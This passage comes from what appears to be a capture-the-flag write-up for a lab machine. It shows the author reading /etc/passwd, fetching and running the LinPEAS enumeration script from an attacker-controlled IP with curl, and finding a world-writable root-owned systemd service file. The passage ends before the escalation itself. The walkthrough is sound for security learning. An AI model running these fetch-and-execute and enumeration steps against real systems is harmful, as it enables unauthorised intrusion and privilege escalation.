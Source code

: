Ok it cracked the first two, but I was really hoping to crack the third one that belonged to Edward. Stephen and John don't appear to be accounts on the box:

```
bash-4.2$ cat /etc/passwd | grep sh
root:x:0:0:root:/root:/bin/bash
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
edward:x:1000:1000::/home/edward:/bin/bash
```

I decided to transfer over LinPEAS to help enumerate further:

```
bash-4.2$ cd /tmp 
bash-4.2$ wget 10.6.72.91/linpeas_NEW.sh  
bash: wget: command not found
bash-4.2$ curl 10.6.72.91/linpeas_NEW.sh > lp.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  828k  100  828k    0     0   793k      0  0:00:01  0:00:01 --:--:--  793k
bash-4.2$ ls
lp.sh
bash-4.2$ chmod +x lp.sh
bash-4.2$ ./lp.sh
```

Linpeas finds that `/etc/systemd/system/zeno-monitoring.service` is writable, as well as some new credentials.

![zeno_lp.png](../assets/zeno_assets/zeno_lp.png)


![zeno_lp3.png](../assets/zeno_assets/zeno_lp3.png)

This is interesting, especially as its owned by root:

```
bash-4.2$ ls -la /etc/systemd/system/zeno-monitoring.service
-rw-rw-rw-. 1 root root 141 Sep 21  2021 /etc/systemd/system/zeno-monitoring.service
```
